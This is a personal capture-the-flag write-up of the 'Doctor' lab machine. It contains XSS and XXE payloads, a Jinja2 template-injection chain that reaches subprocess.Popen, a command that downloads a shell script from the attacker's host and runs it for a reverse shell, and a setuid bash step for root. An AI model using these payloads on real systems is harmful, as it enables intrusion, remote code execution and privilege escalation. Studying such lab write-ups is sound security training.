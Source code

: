 # Doctor

export IP=10.10.10.209

Lets start with an nmap <br>

cmd: nmap -sC -sV -oN nmap/initial $IP

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Did not found anything with gobuster.... <br>

After getting stuck, i went ahead and found a walktrough where it showed the addition of "doctors.htb" to the /etc/hosts file <br>

After we do, we can reach a login form<br>

Tried some SQLi but no luck in there, maybe with more patience, but seems like it does not has that vuln. <br>

Created a new account and started using the platform<br>

The one thing that is possible is the messages posting, i tried some sqli to check database but no luck there. <br>
A curious message in the source code
```
 <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```

This might indicate that we need to upload something and access the page /archive (nothing there now)<br>

After many time, i decided to check what i got as response when using burp in the archive, and seems that the posts are there and we got that as XML.<br>
The application is not sanitizing the xml which may be an XML injection?!?! <br>

```
XML post structure
<item><title> title text here </title></item>
```

Since it is not sanitized we can do

```
<item><title>    </title> <script> alert("w here"); <script> <title>     </title></item>
```

With this we got the alert which means that we can run JS in this page!!!! <br>

Searching further i found that it is an: <b> XXE injection</b>, i've never heard about! <br>

I need to create an XML entity in order to load a file just to test if it works (i'll use file:///etc/passwd)
```
<!DOCTYPE own [ <!ELEMENT own ANY >
<!ENTITY own SYSTEM "file:///etc/passwd">]>
```

Now i need to create the payload
```
<item><title> 

PAYLOAD:
BEFORE </title></item></channel></rss>

<!DOCTYPE own [ <!ELEMENT own ANY >
<!ENTITY own SYSTEM "file:///etc/passwd">]>

<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>
<item> <title> &own; </title></item>

```
This lead me anywhere, so i went and asked in the forum for hints on this: "Have you identified the server?" <br>

I went ahead and searched that on google: Werkzeug/1.0.1 Python/3.8.2 <br>

So after some research i found out that it can be exploited using SSTI (server side template injection). <br>

First lets check the config.items() in the flask app using the message title: </title> </item> {{ config.items () }}
```
 dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', '1234'), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', False), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('MAIL_PASSWORD', 'doctor'), ('MAIL_PORT', 587), ('MAIL_SERVER', ''), ('MAIL_USERNAME', 'doctor'), ('MAIL_USE_TLS', True), ('SQLALCHEMY_DATABASE_URI', 'sqlite://///home/web/blog/flaskblog/site.db'), ('WTF_CSRF_CHECK_DEFAULT', False), ('SQLALCHEMY_BINDS', None), ('SQLALCHEMY_NATIVE_UNICODE', None), ('SQLALCHEMY_ECHO', False), ('SQLALCHEMY_RECORD_QUERIES', None), ('SQLALCHEMY_POOL_SIZE', None), ('SQLALCHEMY_POOL_TIMEOUT', None), ('SQLALCHEMY_POOL_RECYCLE', None), ('SQLALCHEMY_MAX_OVERFLOW', None), ('SQLALCHEMY_COMMIT_ON_TEARDOWN', False), ('SQLALCHEMY_TRACK_MODIFICATIONS', None), ('SQLALCHEMY_ENGINE_OPTIONS', {})]) 
```
For the exploit to work we need to create an object through the vuln to go up in the object tree (through the __mro__) 

```
</title> </item> {{ "".__class__.__mro__ }} (empty string str obj )
```

Now check the root object 
```
</title> </item> {{ "".__class__.__mro__[1].__subclasses__() }}

```
Since i need to find something (a library) to leverage this, the ideal would be popen (from subprocess) to launch a new process with a rev shell... and it is on the list (too big to paste here) <br> 

Now just need to figure what is the index of the popen in the returned list from subclasses() <br> can use python slicing with some guessing

```
FIRST: </title> </item> {{"".__class__.__mro__[1].__subclasses__()[284:]}}
FIRST: </title> </item> {{"".__class__.__mro__[1].__subclasses__()[350:]}}


I was tired of this and created a tool to find in the dump. Gave me the exact index.

INDEX: 407
```

Now just need to craft a command line command to make a reverse shell... and it didnt worked.. <br>

Since we now have ways to execute things my idea is to
```
CREATE MESSAGE: Spawn python server and get a bash reverse shell from my pc to machine (mark as executable)
 and run it
</title> </item> {{"".__class__.mro()[1].__subclasses__()[407]("wget http://10.10.15.14:8000/waza_shellz_.sh && chmod +x waza_shellz_.sh && ./waza_shellz_.sh ",shell=True,stdout=-1).communicate()[0].strip()}}


</title> </item> {{"".__class__.mro()[1].__subclasses__()[407]("./waza_shellz_.sh ",shell=True,stdout=-1).communicate()[0].strip()}}

LISTEN with python server and nc

ACCESS ARCHIVE
```

GOT A SHELLL MANNNNNNNNN ! <br>
Make a stable shell and lets go! <br>

In the env there is a path to the db
```
/home/web/blog/flaskblog/site.db
```

Could not make SQLAlchemy to print the contents but as far as i suspect, that is just for the messaging platform which is not relevant.... <br>

Lets run a linpeas to try to escalate to the user<br>

What caught my attention was the ammount of logs that existed in the system which, oddly enough, belong to the group "adm" which the user web is also part of <br>

This and the permissions the logs have make them suspicious. Lets cat them all! <br>

The folder that interest the most is:
- apache2
<br>

Since there is .gz files i'll use zrep to grep on .gz and non gz and pipe that to grep (to highlight) <br>

```
zgrep "password" * | grep password

backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
Seems like a password reset, lets try as user... <br> it worked ! <br>

```
cat ~/user.txt

FLAG: 1e903fcaeee2421188cac9fc0b773476
```

Lets linpeas again to find the privesc for root!! <br>
Did not found anything interesting besides the splunk being run by root... lets search <br>

```
ps aux | grep -i splunkd

root        1129 13.4  2.6 313092 104916 ?       Sl   11:33  73:50 splunkd -p 8089 start
root        1131  0.0  0.3  77664 15624 ?        Ss   11:33   0:00 [splunkd pid=1129] splunkd -p 8089 start [process-runner]
```

As i found out, if the splunk is running as root its forwards can be abused and thus privesc to the user running the account ! <br>
src: https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/ <br>
Exploit src: https://github.com/cnotin/SplunkWhisperer2 <br>

I was having problems running the exploit remotely so i went ahead and did a local priv esc and just made a link of /bin/bash with chmod +s <br>

```
payload: ln /bin/bash /home/shaun/tmp/rooted; chmod +s /home/shaun/tmp/rooted

rooted -p
whoami
root

cat /root/root.txt
FLAG: 8c97ac3d81b1d7fb48f791f46c011680
```